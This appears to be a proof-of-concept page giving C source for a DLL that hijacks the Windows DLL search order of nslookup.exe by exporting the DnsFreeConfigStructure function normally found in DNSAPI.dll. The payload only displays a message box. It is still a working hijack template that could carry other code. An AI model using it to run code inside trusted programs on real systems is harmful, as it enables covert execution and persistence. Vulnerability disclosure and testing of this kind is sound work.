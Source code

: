 DLL Search Order Hijacking in via `DnsFreeConfigStructure` function in the DLL `DNSAPI.dll` of the executable `nslookup.exe`. 

```c
#include <windows.h>

int Main() {
    MessageBoxW(0, L"DLL Search Order Hijacking is present", L"DLL Search Order Hijacking", 0);
    return 1;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)Main, NULL, NULL, NULL);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

__declspec(dllexport) void DnsFreeConfigStructure() { Main(); }
```
